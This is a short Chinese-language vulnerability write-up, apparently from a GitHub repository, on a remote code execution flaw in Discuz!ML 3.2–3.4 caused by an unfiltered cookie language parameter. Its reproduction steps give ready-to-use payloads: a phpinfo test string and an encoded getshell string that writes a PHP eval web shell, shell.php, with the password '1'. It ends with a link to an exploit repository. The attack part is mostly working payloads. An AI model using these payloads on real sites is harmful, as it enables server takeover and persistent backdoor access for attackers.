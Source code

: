 # Discuz!ML 3.x代码执行漏洞

## 一、漏洞简介

漏洞类型：代码执行漏洞

漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。

## 二、影响范围

Discuz!ML V3.2-3.4

## 三、复现过程

cookie字段中会出现`xxxx_xxxx_language`字段，根本原因就是这个字段存在注入，导致的RCE

抓包找到cookie的language的值修改为


```
xxxx_xxxx_language=sc'.phpinfo().'
```

getshell


```
%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27
```

实际为：


```bash
'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).'
```

即可在路径下生成shell.php，连接密码为1

https://github.com/ianxtianxt/discuz-ml-rce